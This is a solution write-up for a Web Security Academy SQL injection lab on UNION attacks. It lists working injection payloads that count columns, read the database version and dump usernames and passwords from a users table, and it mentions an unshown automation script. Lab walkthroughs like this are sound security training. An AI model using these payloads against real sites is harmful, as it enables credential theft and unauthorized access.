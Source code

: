 # SQL Injection Lab 10 - SQL injection UNION attack, retrieving multiple values in a single column

## Manual Solution

### 1. Access the lab in Web Security Academy
### 2. Determine the number of columns for UNION attack
   - Test: `/filter?category=Gifts' ORDER BY 1--`
   - Result: No error (at least 1 column exists)
   - Test: `/filter?category=Gifts' ORDER BY 2--`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 3--`
   - Result: Error (confirms 2 columns)

### 3. Determine the version of the database:
   - Test: `/filter?category=Gifts' UNION SELECT '1',version()--`
   - Result: So the version of the database is PostgreSQL 12.20. And we see which column is compatible with the string data.

### 4. Username and password of the administrator:
   - Test: `/filter?category=Gifts' UNION SELECT null,concat(username,' --- ',password) FROM users--`
   - Result: You'll see the username and password of the administrator.

### 5. Login to the administrator account

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command: python sqli_lab_10.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)

